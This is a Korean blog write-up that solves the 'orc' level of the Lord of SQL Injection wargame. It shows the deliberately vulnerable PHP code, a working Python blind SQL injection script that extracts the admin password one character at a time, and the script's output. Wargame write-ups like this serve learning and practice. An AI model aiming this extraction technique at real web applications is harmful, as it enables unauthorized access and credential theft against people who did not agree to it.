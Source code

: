 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - orc 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


하루에 한 문제씩 `los` 문제를 풀어보는 중이다.  

다음 문제의 이름은 `orc`이다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------
query : select id from prob_orc where id='admin' and pw=''
-------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

이번 문제에는 문제를 풀기 위해 아래의 조건문을 통과해야 한다.  

```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
```

입력 한 `pw`의 값과 데이터베이스에 저장되어 있는 `pw`의 값이 같아야 한다.  

즉, 정확한 `pw`의 값을 입력해야 문제를 풀 수 있다.  

이 문제는 `Blind SQL Injection`으로 해결했다.  

`Blind SQL Injection`은 쿼리 결과 에 따른 서버의 참과 거짓 반응을 통해 공격을 수행한다.  

이에 대해 이 전 블로그에 적어둔게 있는데, 지금은 옮기기 귀찮아서 나중에 시간이 될 때 옮겨오려 한다.  

문제를 풀기 위해 구현한 `exploit` 코드는 아래와 같다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw="
session = dict(PHPSESSID = "3h56trd4icl38l1f0hap6cnhp0")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' or id='admin' and length(pw)=" + str(i) + "%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' or id='admin' and substr(pw, " + str(j) + ", 1)='" + chr(i)
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

먼저 `pw`의 길이를 알아내기 위해, `length()` 함수를 사용했다.  

이 경우 완성되는 쿼리는 다음과 같다.  

```
select id from prob_orc where id='admin' and pw='1' or id='admin' and length(pw)=0#'
```

만약 pw의 길이가 `str(i)`의 값과 같을 경우 데이터베이스에서는 `id='admin' and length(pw)=0`의 두 조건이 모두 참이므로 `admin`의 행이 추출되어 `Hello admin`이 출력될 것이다.  

길이를 찾은 다음에는 해당 길이만큼 반복문을 수행 해 `pw`를 한 글자 씩 찾았다.  

`substr()`을 사용했는데, 이 경우 완성되는 쿼리는 다음과 같다.  

```
select id from prob_orc where id='admin' and pw='1' or id='admin' and substr(pw, 0, 1)='0'
```

이 때도 만약 pw의 `str(j)`번 째 문자가 `chr(i)`의 값과 같을 경우 `id='admin' and substr(pw, 0, 1)='0'`의 모든 조건이 참이 되어 `admin`의 행이 추출된다.  

따라서 `Hello admin`이 출력된다.  

이 exploit 코드를 실행시킨 결과 다음과 같이 pw를 찾을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 09
[+] Found 3 : 095
[+] Found 4 : 095A
[+] Found 5 : 095A9
[+] Found 6 : 095A98
[+] Found 7 : 095A985
[+] Found 8 : 095A9852
[+] Found password :  095A9852
[+] End
```

그런데, `095A9852`를 입력해도 `Hello admin`은 출력되지만 문제는 풀리지 않았다.  

생각해보니 `MySQL`에서는 대소문자를 구분하지 않아 만약 `a`와 `A`를 비교해도 참을 반환한다는 것이 생각났다.  

그래서 대문자를 소문자로 바꾸어 다시 인증했더니 문제가 풀렸다.  

```php
-------------------------------------------------------------------
query : select id from prob_orc where id='admin' and pw='095a9852'
-------------------------------------------------------------------

Hello admin
ORC Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

`ORC Clear!!`